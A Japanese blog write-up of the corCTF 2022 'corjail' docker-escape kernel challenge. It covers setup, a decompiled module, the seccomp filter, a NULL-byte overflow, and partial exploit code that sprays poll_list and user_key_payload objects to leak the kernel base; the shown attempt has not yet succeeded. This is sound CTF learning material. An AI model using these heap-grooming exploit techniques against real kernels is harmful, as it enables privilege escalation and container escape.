## イントロ

いちにょっき、ににょっき、さんにょっき！！こんにちは、ニートです。
最近は少しフロント周りを触っていたということで、となると反動でpwnがやりたくなる季節ですね。とはいっても今週からまた新しいインターンに行くことになっているので、様々な環境の変化に正気を保つのがギリギリな今日この頃。というわけで、今日は更に初めての経験をするべくdocker escape pwn問題を解いていきましょう。
解くのは**corCTF 2022**の**corjail**という問題。確か前回のエントリでもcorCTFの問題を解いた気がするのですが、このCTFの問題はかなり好きです。初めてのdocker escape問題ということで、解いてる時に詰まったところや失敗したところ等も含めて書き連ねていこうと思います。まぁ詰まったところと言ってもwriteupをカンニングしたんですけどね。ただ、これは気をつけていることと言うかpwnのwriteupを先に見る時にいつもやることですが、writeupは薄目で見るようにしています。細かいexploit内容は読まずに、keyword的なものだけピックアップして、それらをどう使うかは自分でちゃんと考えるみたいな。カンニングするにしても、最初っから全部見ちゃうとおもしろみがなくなっちゃうので。このエントリでは、色々試行錯誤したり詰まったところも含めたデバッグ風景も一緒に書いていこうと思います。

## devenv setup

まずは[GitHub](https://github.com/Crusaders-of-Rust/corCTF-2022-public-challenge-archive/tree/master/pwn/corjail/task/build)から問題をcloneしてきます。
配布ファイルがたくさんあるので、5分ほどuouoしましょう。
続いて`build_kernel.sh`でKernelイメージをビルドします(スクリプト中だとシングルコアでビルドすることになっていて永遠に終わらないため、適宜修正しましょう)。
なんか途中でSSL周りのエラーが出るため、`MODULES_SIG_ALL`らへんを無効化してしまいましょう。
続いて、`build_image.sh`でゲストファイルシステムを作成します。一応いろいろなことをしているので、evilなことをされないか自分でスクリプトの中身を見ましょう。作成されるファイルは`build/corors/coros.qcow2`です。QCOW形式のファイルは、以下の感じでmount/umountできます:

```mount.bash
### mount.bash
#!/bin/bash
set -eu

MNTPOINT=/tmp/hoge
QCOW=$(realpath "${PWD}"/../build/coros/coros.qcow2)

sudo modprobe nbd max_part=8
mkdir -p $MNTPOINT
sudo qemu-nbd --connect=/dev/nbd0 "$QCOW"
sudo fdisk -l /dev/nbd0
sudo mount /dev/nbd0 $MNTPOINT

### umount.bash
#!/bin/bash

set -eu
MNTPOINT=/tmp/hoge

sudo umount $MNTPOINT || true
sudo qemu-nbd --disconnect /dev/nbd0
sudo rmmod nbd
```

さて、最初に起動フローを把握しておきます。上のスクリプトでマウントされたファイルシステムを見ると、`/etc/inittab`は以下の感じです。
```inittab
T0:23:respawn:/sbin/getty -L ttyS0 115200 vt100
```

普通ですね。続いて`/etc/init.d/docker`あたりにdockerデーモンのサービススクリプトがありますが、これもまあ普通なので割愛。`/etc/systemd/system/init.service`には以下のようにサービスが登録されています:

```/etc/systemd/system/init.service
[Unit]
Description=Initialize challenge

[Service]
Type=oneshot
ExecStart=/usr/local/bin/init

[Install]
WantedBy=multi-user.target
```

`ExecStart`である`/usr/local/bin/init`はこんな感じ:
```/usr/local/bin/init.sh
#!/bin/bash

USER=user

FLAG=$(head -n 100 /dev/urandom | sha512sum | awk '{printf $1}')

useradd --create-home --shell /bin/bash $USER

echo "export PS1='\[\033[01;31m\]\u@CoROS\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]# '"  >> /root/.bashrc
echo "export PS1='\[\033[01;35m\]\u@CoROS\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '" >> /home/$USER/.bashrc

chmod -r 0700 /home/$USER

mv /root/temp /root/$FLAG
chmod 0400 /root/$FLAG
```

新しいユーザ(`user`)を作って、PS1をイかした感じにして、`flag`をroot onlyにしているくらいです。続いて、`/etc/passwd`はこんな感じ:

```/etc/passwd
root:x:0:0:root:/root:/usr/local/bin/jail
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
(snipped...)
```

`root`のログインシェルが`/usr/local/bin/jail`になっています:

```/usr/local/bin/jail.sh
#!/bin/bash

echo -e '[\033[5m\e[1;33m!\e[0m] Spawning a shell in a CoRJail...'
/usr/bin/docker run -it --user user --hostname CoRJail --security-opt seccomp=/etc/docker/corjail.json -v /proc/cormon:/proc_rw/cormon:rw corcontainer
/usr/sbin/poweroff -f
```

`user`としてdockerを起動したあと、`poweroff`をしていますね。ここがメインの処理みたいです。`--security-opt seccomp=/etc/docker/corjail.json`を指定していますが、seccomp filterの内容は後ほど見ていくことにします。`/proc/cormon`という謎のproc fsもバインドマウントしていますが、これも後ほど見ていくことにします。
というわけで、ゲストOSのroot(not on docker)を触りたいときには、`/etc/passwd`のログインシェルを`/bin/bash`あたりにしておけばいいことがわかりました。rootで`docker images`してみると、以下の感じ:
```.bash
root@CoROS:~# docker images
REPOSITORY     TAG             IMAGE ID       CREATED        SIZE
corcontainer   latest          8279763e02ce   2 months ago   84.7MB
debian         bullseye-slim   c9cb6c086ef7   3 months ago   80.4MB
```

先程`jail`の中でも指定されていた`corcontainer`がありますね。これはどうやってつくられたのでしょう。`build_image.sh`を見てみると、以下の記述があります:
```build_image.sh
tar -xzvf coros/files/docker/image/image.tar.gz -C coros/files/docker
cp -rp coros/files/docker/var/lib/docker $FS/var/lib/
rm -rf coros/files/docker/var
```

Docker imageは予め作られたものを使っているようです。デバッグ時には常に最新のexploitをguest OSのdockerコンテナ上に置いておきたいので、`/usr/local/bin/jail`を以下のように変更しておきましょう:
```/usrr/local/bin/jail.sh
#!/bin/bash

echo -e '[\033[5m\e[1;33m!\e[0m] Spawning a shell in a CoRJail...'
cp /exploit /home/user || echo "[!] exploit not found, skipping"
chown -R user:user /home/user
echo 0 > /proc/sys/kernel/kptr_restrict
/usr/bin/docker run -it --user root \
  --hostname CoRJail \
  --security-opt seccomp=/etc/docker/corjail.json \
  --add-cap CAP_SYSLOG \
  -v /proc/cormon:/proc_rw/cormon:rw \
  -v /home/user/:/home/user/host \
  corcontainer
/usr/sbin/poweroff -f
```

あとは`exploit`をguestのファイルシステムにおいておけば、勝手にコンテナ内の`/home/user/exploit`に配置されて便利ですね。ついでに`CAP_SYSLOG`を与えることで`/proc/kallsysm`を見れるようにしています。
因みに諸々のめんどくさいことは、[lysithea](https://github.com/smallkirby/lysithea)が全部面倒見てくれるので、最初のセットアップを除くと実際には以下のコマンドを打つだけです:

```lysithea.bash
lysithea init # first time only
lysithea extract # first time only
lysithea local
```
## static analysis

### misc

lysithea曰く:

```lysithea.bash
root@CoRJail:/home/user/host# ./drothea --verbose
Drothea v1.0.0
[.] kernel version:
        Linux version 5.10.127 (root@VPS) (gcc (Debian 8.3.0-6) 8.3.0, GNU ld (GNU Binutils for Debian) 2.31.1) #2 SMP Thu January 1 00:00:00 UTC 2030
[-] CONFIG_KALLSYMS_ALL is enabled.
[!] unprivileged ebpf installation is enabled.
cat: /proc/sys/vm/unprivileged_userfaultfd: No such file or directory
[-] unprivileged userfaultfd is disabled.
[?] KASLR seems enabled. Should turn off for debug purpose.
[?] kptr seems restricted. Should try 'echo 0 > /proc/sys/kernel/kptr_restrict' in init script.
root@CoRJail:/home/user/host# ./ingrid --verbose
Ingrid v1.0.0
[-] userfualtfd is disabled.
[-] CONFIG_DEVMEM is disabled.
```

基本的セキュリティ機構は全部有効です。さて、kernelのビルドスクリプト(`build_kernel.sh`を読むと、以下のようなパッチがあたっています:

```patch.diff
diff -ruN a/arch/x86/entry/syscall_64.c b/arch/x86/entry/syscall_64.c
--- a/arch/x86/entry/syscall_64.c	2022-06-29 08:59:54.000000000 +0200
+++ b/arch/x86/entry/syscall_64.c	2022-07-02 12:34:11.237778657 +0200
@@ -17,6 +17,9 @@
 
 #define __SYSCALL_64(nr, sym) [nr] = __x64_##sym,
 
+DEFINE_PER_CPU(u64 [NR_syscalls], __per_cpu_syscall_count);
+EXPORT_PER_CPU_SYMBOL(__per_cpu_syscall_count);
+
 asmlinkage const sys_call_ptr_t sys_call_table[__NR_syscall_max+1] = {
 	/*
 	 * Smells like a compiler bug -- it doesn't work
diff -ruN a/arch/x86/include/asm/syscall_wrapper.h b/arch/x86/include/asm/syscall_wrapper.h
--- a/arch/x86/include/asm/syscall_wrapper.h	2022-06-29 08:59:54.000000000 +0200
+++ b/arch/x86/include/asm/syscall_wrapper.h	2022-07-02 12:34:11.237778657 +0200
@@ -219,9 +220,41 @@
 
 #define SYSCALL_DEFINE_MAXARGS	6
 
-#define SYSCALL_DEFINEx(x, sname, ...)				\
-	SYSCALL_METADATA(sname, x, __VA_ARGS__)			\
-	__SYSCALL_DEFINEx(x, sname, __VA_ARGS__)
+DECLARE_PER_CPU(u64[], __per_cpu_syscall_count);
+
+#define SYSCALL_COUNT_DECLAREx(sname, x, ...) \
+	static inline long __count_sys##sname(__MAP(x, __SC_DECL, __VA_ARGS__));
+
+#define __SYSCALL_COUNT(syscall_nr) \
+	this_cpu_inc(__per_cpu_syscall_count[(syscall_nr)])
+
+#define SYSCALL_COUNT_FUNCx(sname, x, ...)					\
+	{									\
+		__SYSCALL_COUNT(__syscall_meta_##sname.syscall_nr);		\
+		return __count_sys##sname(__MAP(x, __SC_CAST, __VA_ARGS__));	\
+	}									\
+	static inline long __count_sys##sname(__MAP(x, __SC_DECL, __VA_ARGS__))
+
+#define SYSCALL_COUNT_DECLARE0(sname) \
+	static inline long __count_sys_##sname(void);
+
+#define SYSCALL_COUNT_FUNC0(sname)					\
+	{								\
+		__SYSCALL_COUNT(__syscall_meta__##sname.syscall_nr);	\
+		return __count_sys_##sname();				\
+	}								\
+	static inline long __count_sys_##sname(void)
+
+#define SYSCALL_DEFINEx(x, sname, ...)			\
+	SYSCALL_METADATA(sname, x, __VA_ARGS__)		\
+	SYSCALL_COUNT_DECLAREx(sname, x, __VA_ARGS__)	\
+	__SYSCALL_DEFINEx(x, sname, __VA_ARGS__)	\
+	SYSCALL_COUNT_FUNCx(sname, x, __VA_ARGS__)
+
+#define SYSCALL_DEFINE0(sname)		\
+	SYSCALL_COUNT_DECLARE0(sname)	\
+	__SYSCALL_DEFINE0(sname)	\
+	SYSCALL_COUNT_FUNC0(sname)

(snpped...)
```

これは[procfsにsyscallのanalyticsを追加するパッチ](https://lwn.net/Articles/896474/)みたいです。パッチからもわかるように、各CPUに`__per_cpu_syscall_count`という変数が追加され、syscallの呼び出し回数を記録するようになっています。

### module analysis (rev)

続いて、本問題のメインであるカーネルモジュール(`cormon.ko`)を見ていきます。そして気づく、ソースコードが配布されてない！！！きっとおっちょこちょいでソースを配布し忘れてしまったんでしょう。仕方がないのでGhidraで見ていきましょう。デコンパイルして適当に見やすく整形するとこんな感じ:

```decompiled.c
char *initial_filter = "sys_execve,sys_execveat,sys_fork,sys_keyctl,sys_msgget,sys_msgrcv,sys_msgsnd,sys_poll,sys_ptrace,sys_setxattr,sys_unshare";

struct proc_ops cormon_proc_ops = {
  .proc_open = cormon_proc_open,
  .proc_write = cormon_proc_write,
  .proc_read = seq_read,
};

struct seq_operations cormon_seq_ops = {
  .start = cormon_seq_start,
  .stop = cormon_seq_stop,
  .next = cormon_seq_next,
  .show = cormon_seq_show,
};

int init_module(void) {
  printk("6[CoRMon::Init] Initializing module...\n");
  if (proc_create("cormon", 0x1B5, 0, cormon_proc_ops) != 0) {
    return -0xC;
  }
  if (update_filter(initial_filter) != 0) {
    return -0x16;
  }
  
  printk("3[CoRMon::Error] proc_create() call failed!\n");
  return 0;
}

void cormon_proc_open(struct *inode inode, struct file *fp) {
  seq_open(fp, cormon_seq_ops);
  return;
}

ssize_t cormon_proc_write(struct file *fp, const char __user *ubuf, size_t size, loff_t *offset) {
  size_t sz;
  char *heap;
  if (*offset < 0) return 0xffffffffffffffea;
  if (*offset < 0x1000 && size != 0) {
    if (0x1000 < size) sz = 0xFFF;
    heap = kmem_cache_alloc_trace(?, 0xA20, 0x1000);
    printk("6[CoRMon::Debug] Syscalls @ %#llx\n");
    if (heap == NULL) {
      printk("3[CoRMon::Error] kmalloc() call failed!\n");
      return 0xfffffffffffffff4;
    }
    if (copy_from_user(heap, ubuf, sz) != 0) {
      printk("3[CoRMon::Error] copy_from_user() call failed!\n");
      return 0xfffffffffffffff2;
    }
    heap[sz] = NULL;
    if (update_filter(heap)) {
      kfree(heap);
    } else {
      kfree(heap);
      return 0xffffffffffffffea;
    }
  }
  return 0;
}

long update_filter(char *syscall_str) {
  char *syscall;
  int syscall_nr;
  char syscall_list[?] = {0};
  
  while(syscall = strsep(syscall, ",") && syscall != NULL && syscall_str != NULL) {
    if((syscall_nr = get_syscall_nr(syscall)) < 0) {
      printk("3[CoRMon::Error] Invalid syscall: %s!\n", syscall);
      return 0xffffffea;
    }
    syscall_list[syscall_nr] = 1;
  }
  
  memcpy(filter, syscall_list, 0x37 * 8);
}

int cormon_seq_show(struct seq_file *sfp, void *vp) {
  ulong v = *vp;
  if (v == 0) {
    int n = -1;
    seq_putc(sfp, 0xA);
    while((n = cpumask_next(n, &__cpu_online_mask)) < _nr_cpu_ids) { // for_each_cpu macro?
      seq_printf(sfp, "%9s%d", "CPU", n);
    }
    seq_printf(sfp, "\tSyscall (NR)\n\n");
  }
  
  if (filtter[v] != 0) {
    if((name = get_syscall_name(v)) == 0) return 0;
    int n = -1;
    while((n = cpumask_next(n, &__cpu_online_mask)) < _nr_cpu_ids) {
      seq_printf(sfp, "%10sllu", "CPU", __per_cpu_syscall_count[v]); // PER_CPU macro?
    }
    seq_printf(sfp, "\t%s (%lld)\n", name, v);
  }
  if (v == 0x1B9) seq_putc(sfp, 0xA);
  
  return 0;
}

void* cormon_seq_next(struct seq_file *fp, void *v, loff_t *pos_p) {
  loff_t pos = *pos_p;
  *pos_p++;
  if (pos < 0x1BA) return pos_p;
  return 0;
}

void* cormon_seq_stop(struct seq_file *fp, void *v) {
  return NULL;
}

void* cormon_seq_start(struct seq_file *fp, loff_t *pos_p) {
  if (*pos_p < 0x1BA) return pos_p;
  else return 0;
}
```

まぁ内容は簡単なのでrev自体はそんなに難しくないです。
やっていることとしては、上述のpatchによって導入されたPERCPUな変数`__per_cpu_syscall_count`を表示するインタフェースを作っています。このカウンタはpatchされたsyscallの先頭において`__SYSCALL_COUNT()`でインクリメントされます。このインクリメントは、モジュール内の`filter`には関係なく全てのsyscallに対して行われます。`cormon`モジュールは、`proc`に生やしたファイルを`read`することで`filter`が有効になっているsyscallの統計結果だけを表示しているようにしており、また書き込みを行うことで`filter`の値を更新することができるように成っています。`update_filter()`を見るとわかるように、更新方法は`/proc_rw/cormon`にsyscallの名前をカンマ区切りで書き込みます(Dockerの起動時に`-v /proc/cormon:/proc_rw/cormon:rw`としてホストのデバイスファイルをゲストにRWでバインドマウントしています)。
実際に使ってみるとこんな感じ:



### seccomp

`seccomp.json`(のちに`corjail.json`としてVM内にコピーされる)には、以下のように`defaultAction: SCMP_ACT_ERRNO`でフィルターが設定されています:

```seccomp.json
{
	"defaultAction": "SCMP_ACT_ERRNO",
	"defaultErrnoRet": 1,
	"syscalls": [
		{
            "names": [ "_llseek", "_newselect", (snipped...)],
			"action": "SCMP_ACT_ALLOW"
		},
		{
			"names": [ "clone" ],
			"action": "SCMP_ACT_ALLOW",
			"args": [ { "index": 0, "value": 2114060288, "op": "SCMP_CMP_MASKED_EQ" } ]
		}
	]
}

```

許可されていないsyscallは、おおよそ以下のとおりです(雑に比較したので多少ずれはあるかも):
```disallowed.txt
msgget
msgsnd
msgrcv
msgctl
ptrace
syslog
uselib
personality
ustat
sysfs
vhangup
pivot_root
_sysctl
chroot
acct
settimeofday
mount
umount2
swapon
swapoff
reboot
sethostname
setdomainname
iopl
ioperm
create_module
init_module
delete_module
get_kernel_syms
query_module
quotactl
nfsservctl
getpmsg
putpmsg
afs_syscall
tuxcall
security
lookup_dcookie
clock_settime
vserver
mbind
set_mempolicy
get_mempolicy
mq_open
mq_unlink
mq_timedsend
mq_timedreceive
mq_notify
mq_getsetattr
kexec_load
request_key
migrate_pages
unshare
move_pages
perf_event_open
fanotify_init
name_to_handle_at
open_by_handle_at
setns
process_vm_readv
process_vm_writev
kcmp
finit_module
kexec_file_load
bpf
userfaultfd
pkey_mprotect
pkey_alloc
pkey_free
```

`unshare, mount, msgget, msgsnd, userfaultfd, bpf`らへんが禁止されていますね。

ちなみに、Ubuntu22.04環境でpthreadを含めてstatic buildしたバイナリをコンテナ上で動かそうとしたところ、`Operation not permitted`になりました。[Dockerには多分seccompでひっかかったsyscallのレポート機能がない](https://blog.jp.square-enix.com/iteng-blog/posts/00016-wsl2-gui-seccomp-issue/)ため、手動と勘で問題になっているsyscallを探したところ、`clone3` syscallが問題になっているようでした。よって、`seccomp.json`に以下のようなパッチを当てました(writeupを見た感じ、pthreadの使用は意図しているため、pthreadを含む環境の違いっぽい?):

```seccomp.patch
--- a/../build/coros/files/docker/seccomp.json
+++ b/./seccomp.json
@@ -10,6 +10,10 @@
                        "names": [ "clone" ],
                        "action": "SCMP_ACT_ALLOW",
                        "args": [ { "index": 0, "value": 2114060288, "op": "SCMP_CMP_MASKED_EQ" } ]
+               },
+               {
+                       "names": [ "clone3" ],
+                       "action": "SCMP_ACT_ALLOW"
                }
        ]
 }
```


## Vuln: NULL-byte overflow

バグはGhidraのデコンパイル結果を見ると明らかです。
`common_proc_write()`ではユーザから渡されたsyscallの文字列を`heap`(kmalloc-4k)にコピーしています。その後、`heap`の最後をNULL終端しようとしていますが、`size`が`0x1000`の時にNULL-byte overflowするようになっています:

```.c
common_proc_write() {
  if (0x1000 < size) sz = 0xFFF;
  if (copy_from_user(heap, ubuf, sz) != 0) {...}
  ...
  heap[sz] = NULL;
  ...
}
```

使われるスラブキャッシュは`kmalloc-4k`です。[コレ](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628)とかを見ると、まぁ使えそうな構造体はあるように思えますが、今回はseccompでフィルターされているため1K以上のキャッシュで使える構造体はこのリストには見当たりません。最近のkernelpwn追ってないしここでお手上げに成ったので、writeupをカンニングしました、チート最高！

## pre-requisites

### `sys_poll`

`sys_poll()`が使えるらしい。ソースはこんな感じ(余計なところは省略している):

```fs/select/select.c
#define FRONTEND_STACK_ALLOC	256
#define POLL_STACK_ALLOC	FRONTEND_STACK_ALLOC
#define N_STACK_PPS ((sizeof(stack_pps) - sizeof(struct poll_list))  / \
			sizeof(struct pollfd))
#define POLLFD_PER_PAGE  ((PAGE_SIZE-sizeof(struct poll_list)) / sizeof(struct pollfd))            
struct pollfd {
	int fd;
	short events;
	short revents;
}; /* size: 8, cachelines: 1, members: 3 */
struct poll_list {
	struct poll_list *next;
	int len;
	struct pollfd entries[];
}; /* size: 16, cachelines: 1, members: 3 */

static int do_sys_poll(struct pollfd __user *ufds, unsigned int nfds,
		struct timespec64 *end_time)
{
	struct poll_wqueues table;
	long stack_pps[POLL_STACK_ALLOC/sizeof(long)];
	struct poll_list *const head = (struct poll_list *)stack_pps;
 	struct poll_list *walk = head;

	len = min_t(unsigned int, nfds, N_STACK_PPS);
	for (;;) {
		walk->next = NULL;
		walk->len = len;
		if (!len)
			break;

		if (copy_from_user(walk->entries, ufds + nfds-todo,
					sizeof(struct pollfd) * walk->len))
			goto out_fds;

		todo -= walk->len;
		if (!todo)
			break;

		len = min(todo, POLLFD_PER_PAGE);
		walk = walk->next = kmalloc(struct_size(walk, entries, len),
					    GFP_KERNEL);
		if (!walk) {
			err = -ENOMEM;
			goto out_fds;
		}
	}

	fdcount = do_poll(head, &table, end_time);

	err = fdcount;
out_fds:
	walk = head->next;
	while (walk) {
		struct poll_list *pos = walk;
		walk = walk->next;
		kfree(pos);
	}

	return err;
}
```

まずユーザランドから渡された`pollfd`リストをスタック上の`stack_pps`に最大256byte分コピーします。厳密には、`next, len`メンバ分の16byteを除いた240byte分(つまり`struct pollfd`の30個分)をスタック上にコピーします。もしそれ以上の`ufds`が渡された場合には、次は最大で`POLLFD_PER_PAGE ((4096-16)/8 == 510)`個数分だけ`kmalloc()`してコピーします。つまり、使われるスラブキャッシュはkmalloc-32 ~ kmalloc-4kのどれか(`next, len`の分があるためkmalloc-16以下には入らない)です。こうして、256byteのstackと、32~4Kのheapに`struct poll_list`と`pollfd`をコピーしたあと、それらを`next`ポインタで繋いでリストを作っています。freeは、リストの先頭から順に`kfree`で単純に解放してます。
なるほど、たしかにこの構造体はkmalloc-32~4kの任意のサイズのキャッシュへのポインタを持つことができて、且つfreeはタイマーでも任意のタイミングでもできるため便利そう。
前述のNULL-byte overflowを使って`struct pollfd`の`next`をpartial overwriteすることで、そのスラブに入っているオブジェクトをUAF(read)できそうです。問題は、`msgXXX`系のsyscallがフィルターされている状況で、どの構造体を使ってreadするか。

### `add_key` / `keyctl` syscall

まぁ勿論カンニングしたんですが。`add_key`というシステムコールがあるらしい。知らんがな。そういえば、seccompのフィルターを見ると[デフォルトの設定](https://docs.docker.com/engine/security/seccomp/)では許可されていないのにこの問題では許可されています。ソースはこんな感じ:

```fs/select.c
// security/keys/user_defined.c
struct key_type key_type_user = {
	.name			= "user",
	.preparse		= user_preparse,
	.free_preparse		= user_free_preparse,
	.instantiate		= generic_key_instantiate,
	.update			= user_update,
	.revoke			= user_revoke,
	.destroy		= user_destroy,
	.describe		= user_describe,
	.read			= user_read,
};
int user_preparse(struct key_preparsed_payload *prep)
{
  struct user_key_payload *upayload;
  size_t datalen = prep->datalen;

  if (datalen <= 0 || datalen > 32767 || !prep->data)
      return -EINVAL;

  upayload = kmalloc(sizeof(*upayload) + datalen, GFP_KERNEL);
  ...
}

// security/keys/keyctl.c
SYSCALL_DEFINE5(add_key, const char __user *, _type,
		const char __user *, _description, const void __user *, _payload,
		size_t, plen, key_serial_t, ringid)
{
  key_ref_t keyring_ref, key_ref;
  char type[32], *description;
  void *payload;
  long ret;

  /* draw all the data into kernel space */
  ret = key_get_type_from_user(type, _type, sizeof(type));
  description = NULL;
  if (_description) {...}

  /* pull the payload in if one was supplied */
  payload = NULL;

  if (plen) {
      ...
      if (copy_from_user(payload, _payload, plen) != 0)
          goto error3;
  }

  keyring_ref = lookup_user_key(ringid, KEY_LOOKUP_CREATE, KEY_NEED_WRITE);
  key_ref = key_create_or_update(keyring_ref, type, description,
                     payload, plen, KEY_PERM_UNDEF, KEY_ALLOC_IN_QUOTA);
  ...
}

// security/keys/key.c
key_ref_t key_create_or_update(key_ref_t keyring_ref,
			       const char *type,
			       const char *description,
			       const void *payload,
			       size_t plen,
			       key_perm_t perm,
			       unsigned long flags)
{
  struct keyring_index_key index_key = {
      .description	= description,
  };
  struct key_preparsed_payload prep;                       
    
  index_key.type = key_type_lookup(type);
  memset(&prep, 0, sizeof(prep));
  ...
  if (index_key.type->preparse) {
      ret = index_key.type->preparse(&prep);
      ...
  }
  ...
  ret = __key_instantiate_and_link(key, &prep, keyring, NULL, &edit);
  ...
}
```

はい。[manpage](https://man7.org/linux/man-pages/man2/add_key.2.html)によると、`keyring`, `user`, `logon`, `bigkey`という4種類の鍵があります。そしてそのそれぞれについてfopsみたいな`struct key_type`構造体が結びついています。このハンドラの中の、ユーザ入力ペイロードをパースする関数である`.preparse`は、`user`タイプの場合`user_preparse()`関数に成っています。`user_preparse()`は、`user_key_payload`構造体を`kmalloc`します。この構造体はこれまた可変サイズを持ち、最大`sizeof(struct user_key_payload) + 32767`までの任意のサイズをユーザ指定で確保することができます。解放も、ユーザが任意のタイミングで行うことができます([`keyctl_revoke`](https://man7.org/linux/man-pages/man3/keyctl_revoke.3.html))。[読むこと](https://man7.org/linux/man-pages/man3/keyctl_read.3.html)も、できます。素晴らしい構造体ですね、全くどうやってこんなもんを見つけてくるのやら。おまけに、**特筆すべきこととして最初のメンバである`rcu`は初期化されるまではもとの値が保たれるみたいです**。ふぅ。

## kbase leak via `user_key_payload` and `seq_operations`

さて、これらの材料を使うとkernbaseがリークできそうです。細かい事は無視して大枠だけ考えます。
事前準備として、`add_key`を呼び出して`struct user_key_payload`を`kmalloc-32`に置いておきます。続いて、`poll`を542個(stackに置かれる30個 + kmalloc-4kに置かれる510個 + kmalloc-32に置かれる2個)のfdに対して呼び出します。そうすると、`stack --> kmalloc-4k --> kmalloc-32`の順に`struct poll_list`のリストが繋がれます。続いて、モジュールのプロックファイルに書き込むことで`cormon_proc_write()`を呼び出してNULL-byte overflowさせます。このときバッファは`kmalloc-4k`にとられるため、うまく行くと先程の`poll_list.next`ポインタの最後1byteがpartial overwriteされます。そして、そのアドレスがうまい具合だと、書き換えたあとのポインタが一番最初に準備した`user_key_payload`を指すことになります。続いて`poll_list`をfreeさせる(これはtimer expireでも、イベントを発生させるのでもどちらでもOK)ことで、リストにつながっている`user_key_payload`をfreeします。これで`user_key_payload`のUAF完成です。kbaseを読むために`seq_operations`らへんを確保して、`user_key_payload`の上に配置します。あとは`keyctl_read`でペイロードを読むことで、kbaseをleakできます。
というようにシナリオだけ文面で考えると簡単そうですが、「うまくいくと」と書いたところをうまくさせないといけませんね。まぁスプレーでなんとかなるでしょう。
さて、順を追ってやっていきましょう。まずは`add_key()`でkmalloc-32に鍵を置きます。なお、`add_key` syscallに対するglibc wrapperはないため、`libkeyutils-dev`等のパッケージをインストールしたあと、`-lkeyutils`を指定してビルドする必要があります。
雑にkeyをスプレーします:
```spray_keys.c
void spray_keys() {
  char *desc = calloc(0x100, 1);
  if (desc <= 0) errExit("spray_keys malloc");
  strcpy(desc, DESC_KEY_TOBE_OVERWRITTEN_SEQOPS);

  for (int ix = 0; ix != NUM_KEY_SPRAY; ++ix) {
    memcpy(desc + strlen(DESC_KEY_TOBE_OVERWRITTEN_SEQOPS), &ix, 4);
    char *key_payload = malloc(SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    memset(key_payload, 'A', SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    key_serial_t keyid0 = add_key("user", desc, key_payload, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS, KEY_SPEC_PROCESS_KEYRING);
    if (keyid0 < 0) errExit("add_key 0");
  }
}
```

すると、以下のようにヒープの中にそれらしい箇所が見つかります(`pt -ss AAAAAAAA -align 8
`)。きっとコレが`kmalloc-32`でしょう。needleとして仕込んだ`AAAAAAAA`というペイロードと、その直前がshortの`0x08`(`ushort datalen`)であることからもわかります:


ところで、`user_key_payload`が連続していないことが見て取れますね。きっと、`CONFIG_SLAB_FREELIST_RANDOMIZE`らへんが有効化されているのでしょう。
続いて、`poll_list`を`kmalloc-4k`と`kmalloc-32`にスプレーしていきます。

```alloc_poll_list.c
  assign_to_core(0);
  for (int ix = 0; ix != NUM_POLLLIST_ALLOC; ++ix) {
    if(pthread_create(&threads[ix], NULL, alloc_poll_list, &just_fd) != 0) errExit("pthread_create");
  }
```




今回はpollするイベントは`POLLERR`(`=0x0008`)で、使った`fd`は`0x00000004`なので、バイト列`0x0000000400080000`をニードルとして検索できます(`pt -sb 08000000040000000800000004000000 -align 16`。まぁ、`pt -sb fe01000004000000 -align 8`のほうが良さそう)。ところで、`struct poll_list`において、`struct pollfd[]`って8byteアラインされないんですね。おかげで`poll_list`がどこにも見つからない...!と発狂する羽目になりました。あ、ところでこの`pt`コマンドは[gdb-pt-dump](https://github.com/martinradev/gdb-pt-dump)のことです。


さぁさぁ、とりあえずは各構造体が意図したサイズのキャッシュに入っていることが分かりました。
この状態で、一旦NULL-byte overflowさせてみます:
```overflow.c
void nullbyte_overflow(void) {
  assert(cormon_fd >= 2);
  memset(cormon_buf, 'B', 0x1000 + 0x20);
  strcpy((char*)cormon_buf + 1, "THIS_IS_CORMON_BUFFER");
  *cormon_buf = 0x00;

  if(write(cormon_fd, cormon_buf, 0x1000) != -1) errExit("nullbyte_overflow");
  errno = 0;
}
```


うーん、確かに次のページ上のスラブオブジェクトがNULL-byte overflowされている感じはしますが、このオブジェクトは明らかに`struct poll_list`ではありません(`.len`メンバが不正)。色々と試してみた結果、`struct poll_list`を確保する回数を`0x10 -> 0x10-2`回にしたらいい感じになりました。スプレーでは大事、こういう小さい調整:


確かに`cormon_proc_write()`で確保されたバッファと`struct poll_list`が隣接し、`poll_list.next`の先頭1byteがNULL-byte overflowされていることがわかりますね。因みに、writeupによると`sched_setaffinity()`を使ってどのコアを使うかをコントロールしたほうがいいらしいです。確かにスラブキャッシュはPERCPUだから、そっちのほうが良さそう。頭いいね！
さぁ、ここで重要なことは、overwriteされた`next`ポインタが指す先(`0xffff888007617500`)が最初に確保した`user_key_payload`になっているかどうか。且つ、最初のメンバである`user_key_payload.rcu`がNULLであるかどうかですが...:


完璧ですね。これであとは数秒待って`poll`をタイムアウトさせることで、`poll_list`が先頭から順にfreeされていきます。`user_key_payload`もfreeされてしまいます。よって、こいつの上に新しく何らかの構造体を置いてあげましょう。`kmalloc-32`に入っていて、且つkptrを含んでいるものなら何でもいいです。今回は`seq_operations`を使ってみます:

```seq_operations.c
  // Check all keys to leak kbase via `seq_operations`
  char keybuf[0x100] = {0};
  ulong leaked = 0;
  for (int ix = 0; ix != NUM_KEY_SPRAY; ++ix) {
    memset(keybuf, 0, 0x100);
    if(keyctl_read(keys[ix], keybuf, 0x100) < 0) errExit("keyctl_read");
    if (strncmp(keybuf, "AAAA", 4) != 0) {
      leaked = *(ulong*)keybuf;
    }
  }
  if (leaked == 0) {
    puts("[-] Failed to leak kbase");
    exit(1);
  }
  printf("[!] leaked: 0x%lx\n", leaked);
```



う〜〜〜ん、panicしているので確実に悪いことはできているのですが上手くleakはできていません。gdbで見てみましょう:



前半がoverflowされた`poll_list`、後半が`poll_list.next`に指されたためにfreeされて`user_key_payload`から`seq_operations`になったもの。う〜ん、一見すると良さそうですけどね。とりあえず一番最初にもっと`kmalloc-32`を飽和させておいたほうがいいんじゃないかと思い、`user_key_payload`をもっとスプレーしようとしたところ、以下のエラーになりました:


詳しくは見ていないけど、鍵はあんまり多くは確保できなさそうなので代わりに`seq_operations`でもっとスプレーしておくようにしました。それから、`pthread_join()`する度にすぐさま`seq_operations`を確保するようにしました。しかしながら、やっぱり`keyctl_read()`でleakできない！！



